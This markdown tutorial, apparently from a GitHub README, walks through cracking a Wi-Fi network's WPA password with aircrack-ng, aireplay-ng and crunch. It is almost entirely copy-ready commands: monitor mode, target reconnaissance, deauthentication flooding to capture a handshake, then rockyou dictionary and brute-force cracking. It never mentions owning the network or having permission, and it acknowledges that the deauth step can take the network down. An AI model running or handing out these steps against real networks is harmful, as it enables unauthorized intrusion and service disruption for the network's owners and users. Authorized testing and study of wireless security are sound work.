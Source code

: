 preview: https://markdownlivepreview.com/  
##  Prerequisite  
```bash
sudo apt update
```  
```bash
# install aircrack
sudo apt install aircrack-ng
```  
```bash
# verify aircrack installation
aircrack-ng --help
```  
```bash
# install crunch
sudo apt install crunch
```  
```bash
# verify crunch installation
crunch -h
```  
And a goof wifi adapter who can do handshakes  
## A. Start general info  
`Default Folder`
```bash
# switch to super user
sudo su
```  
```bash
iwconfig
# see the network - it must be Mode:managed
```  
```bash
# this will show current running process
airmon-ng check
```  
```bash
# kill current process
airmon-ng check kill
# rechecking will show nothing this time
```  

## B. Change manager mode to monitor mode  
`same Default Folder`
```bash
airmon-ng start wlan0
# wlan0 can vary like wlan0mon etc
# this will change managed mode to monitor mode  
```  

## C. Gather basic info  
`same Default Folder`
```bash
airodump-ng wlan0
# stop the process (CTRL + C) after 10-15 secs
```  
create a text note of  
```txt
BSSID:
CH (channel):
ESSID:
```  

## D. Dump the capture file  
```
-|New_Folder
   |- Captured_Files
   |- rockyou (we will talk about this folder later)
```  
use this folder structure on desktop or anywhere  
```bash
# inside "Captured_Files" folder do `sudo su` & use
airodump-ng wlan0 -d <bssid>
# in some time you will see Handshake: bssid in top at the command  
# keep this process running
```  
`in same folder (Captured_Files) open another terminal`  
```bash
# de-auth
aireplay-ng --deauth 0 -a <bssid> wlan0
# this will start sending deauthentication codes  
# increasing number after --de-auth will lengthen the process & night shut the network for sometime  
# After some time usually 20secs close the execution (CTRL + C)  
```  
```bash
# this will capture the files  
airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
# close after 20secs
```  
```bash
# run the de-auth just to make sure things  
aireplay-ng --deauth 0 -a <bssid> wlan0
# close after 20secs

# re-run deauth
airodump-ng -w file_name -c <ch> --bssid <bssid> wlan0
# close after 20secs
```  
```bash
ls
# check the files in "Captured_Files" folder
# visible formats - csv, netxml, cap
```  

## E. Dictionary Attack (Method One)  
Download the rockyou file from internet, extract it & paste the `rockyou.txt` file in `rockyou` folder  
```
-|New_Folder
   |- Captured_Files
   |- rockyou (extract it & paste the `rockyou.txt` file here)
```  
`OR` we can use built in rockyou file from kali linux environment  
```bash
# optional if we skill download
gunzip -c /usr/share/wordlists/rockyou.txt.gz > ~/Desktop/New_Folder/rockyou/rockyou.txt
# sometimes this will be problematic so i choose download & use it  
```  
```bash
# change the permission
chmod 777 ~/Desktop/New_Folder/rockyou/rockyou.txt
# aircrack-ng file_name.cap -w <rockyou.txt path>
aircrack-ng file_name.cap -w /Desktop/New_Folder/rockyou/rockyou.txt
```  
wait for sometimes it will execute the process  

## F. Brute Force Attack (Method Two)  
this take too much time to penetrate  
F.1: Number only  
```bash
crunch 4 4 0123456789 | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
```  
F.2: Character Set  
```bash
crunch 8 8 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
```  
F.3: Complex Character Set  
```bash
crunch 12 12 0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!@#$%^&*()_+=-[]{}|;:'",.<>?/ | aircrack-ng file_name.cap -b <bssid> -w- 2>&1 | tee brute.txt
```  

## Post process  
```bash
# After all things done, do this before shutting OS
airmon-ng Stop wlan0
```  